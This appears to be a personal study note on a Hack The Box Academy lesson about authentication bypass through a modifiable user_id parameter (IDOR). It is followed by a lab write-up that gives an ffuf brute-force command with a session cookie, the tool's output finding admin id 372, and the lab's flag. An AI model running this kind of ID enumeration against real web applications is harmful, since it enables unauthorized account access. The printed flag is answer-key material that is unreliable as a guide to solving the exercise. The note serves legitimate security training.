 ```yaml
---
aliases:
  - Authentication Bypass via Parameter Modification
sticker: emoji//1faaa
---
```

An authentication implementation can be flawed if it depends on the presence or value of an HTTP parameter, introducing authentication vulnerabilities. As in the previous section, such vulnerabilities might lead to authentication and authorization bypasses, allowing for privilege escalation.

This type of vulnerability is closely related to authorization issues such as `Insecure Direct Object Reference (IDOR)` vulnerabilities, which are covered in more detail in the [Web Attacks](https://academy.hackthebox.com/module/details/134) module.

---

## Parameter Modification

Let us take a look at our target web application. This time, we are provided with credentials for the user `htb-stdnt`. After logging in, we are redirected to `/admin.php?user_id=183`:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_1.png)

In our web browser, we can see that we seem to be lacking privileges, as we can only see a part of the available data:

   

![](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_2.png)

To investigate the purpose of the `user_id` parameter, let us remove it from our request to `/admin.php`. When doing so, we are redirected back to the login screen at `/index.php`, even though our session provided in the `PHPSESSID` cookie is still valid:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_3.png)

Thus, we can assume that the parameter `user_id` is related to authentication. We can bypass authentication entirely by accessing the URL `/admin.php?user_id=183` directly:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_4.png)

Based on the parameter name `user_id`, we can infer that the parameter specifies the ID of the user accessing the page. If we can guess or brute-force the user ID of an administrator, we might be able to access the page with administrative privileges, thus revealing the admin information. We can use the techniques discussed in the `Brute-Force Attacks` sections to obtain an administrator ID. Afterward, we can obtain administrative privileges by specifying the admin's user ID in the `user_id` parameter.

---

## Final Remark

Note that many more advanced vulnerabilities can also lead to an authentication bypass, which we have not covered in this module but are covered by more advanced modules. For instance, Type Juggling leading to an authentication bypass is covered in the [Whitebox Attacks](https://academy.hackthebox.com/module/details/205) module, how different injection vulnerabilities can lead to an authentication bypass is covered in the [Injection Attacks](https://academy.hackthebox.com/module/details/204) and [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33) modules, and logic bugs that can lead to an authentication bypass are covered in the [Parameter Logic Bugs](https://academy.hackthebox.com/module/details/239) module.

# Question
---
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214182725.png)

Once we've authenticated, we can see the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214182813.png)

We get assigned an user id in the URL and we're also told we don't have admin privileges, we can brute-force the admin id in the following way:

First, create a wordlist of digits from 1 to 1000:

```bash
seq 1 1000 > digits.txt
```

Now, do the following ffuf command:

```
ffuf -w digits.txt -u "http://IP:PORT/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=our_cookie" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w digits.txt -u "http://94.237.48.103:39253/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=9i2epg991j6af0vvgp56v9rnav" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.48.103:39253/admin.php?user_id=FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/digits.txt
 :: Header           : Cookie: PHPSESSID=9i2epg991j6af0vvgp56v9rnav
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Could not load admin data. Please check your privileges
________________________________________________

372                     [Status: 200, Size: 14465, Words: 4165, Lines: 429, Duration: 2667ms]
```

So, admin user's id is `372`, let's log into admin panel:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214183900.png)

Flag is:

```
HTB{63593317426484ea6d270c2159335780}
```